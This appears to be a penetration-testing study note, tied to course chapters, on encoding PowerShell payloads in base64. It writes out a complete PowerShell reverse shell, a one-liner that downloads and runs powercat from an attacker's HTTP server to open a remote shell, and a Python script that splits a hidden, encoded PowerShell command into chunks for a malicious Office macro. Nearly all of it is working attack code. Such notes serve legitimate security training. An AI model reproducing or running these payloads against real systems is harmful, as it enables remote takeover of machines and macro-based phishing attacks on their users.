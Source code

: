 # base64_with_Powershell
- from 9.3.1 Common WebApp Attacks / Using executable files

```powershell

pwsh # start powershell in KALI terminal

$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```

- chapter 12.2.3, with powercat, downloading from our http server, and then, rev shell
```powershell

$Text = 'IEX(New-Object System.Net.WebClient).DownloadString("http://192.168.45.158/powercat.ps1");powercat -c 192.168.45.158 -p 4444 -e powershell'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText

```

For MS Office Macro, the strings can't be longer than 255 characters, so we need to split them up, easy in with Python
```python
str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

that turns into 
```python
Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
Str = Str + "hAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQA5A"
Str = Str + "DIALgAxADYAOAAuADQANQAuADEANQA4AC8AcABvAHcAZQByAGM"
Str = Str + "AYQB0AC4AcABzADEAIgApADsAcABvAHcAZQByAGMAYQB0ACAAL"
Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADEANQA4ACAALQB"
Str = Str + "wACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsA"
Str = Str + "GwA"


```



- Easier on RevShells.com